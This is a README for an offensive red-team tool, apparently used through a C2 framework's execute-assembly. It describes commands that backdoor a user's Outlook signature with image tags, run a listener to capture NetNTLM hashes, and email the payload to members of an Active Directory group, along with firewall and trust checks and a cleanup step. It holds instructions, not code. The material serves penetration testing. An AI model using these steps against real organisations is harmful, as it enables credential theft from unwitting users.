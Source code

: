 Sigwhatever
For automated exploitation of netntlm hash capture via image tags in emails.

==========

**TL DR:**

run:

**execute-assembly sigwhatever.exe AUTO**

Then when you're finished, run:

**execute-assembly sigwhatever.exe CLEANUP**

Bear in mind that even running jobkill on the .net job does not seem to kill the spawned process.

==========


Usage instructions - note that <port> refers to the port that the HTTP server will run on.

        AUTO: Just do everything for me - backdoor the signature and start the listener on this box.

                Usage: sigwhatever.exe AUTO


        CHECKTRUST: Check whether the trust zone settings - if the domain isn't in there then this probably won't work

                Usage: sigwhatever.exe CHECKTRUST


        CHECKFW: Check whether the host based firewall is on and whether there's an exception for the chosen port

                Usage: sigwhatever.exe CHECKFW <port>


        SIGNATURE: hijack the current user's signature, or add a new one via registry changes

                Usage: sigwhatever.exe SIGNATURE <port> <logfile> <backdoorall> <force>


        SIGNOLISTEN: hijack the current user's signature, or add a new one via registry changes

                Usage: sigwhatever.exe SIGNOLISTEN <server> <port> <logfile> <backdoorall>


        CLEANUP: Remove any modifications to the registry or htm signature files

                Usage: sigwhatever.exe CLEANUP


        EMAILADMINS: Enumerate email addresses from an AD group and send them a 'blank' email with the payload.

                Usage: sigwhatever.exe EMAILADMINS <Active Directory group> <port> <logfile> <force>


        LISTENONLY: Just start the listener - make sure it's on the same port

                Usage: sigwhatever.exe LISTENONLY <port> <logfile>


NOTE: With the signature option, if backdoorall is not specified then the tool will attempt to get the current signature from Outlook - this may cause a popup for the user if their AV is out of date.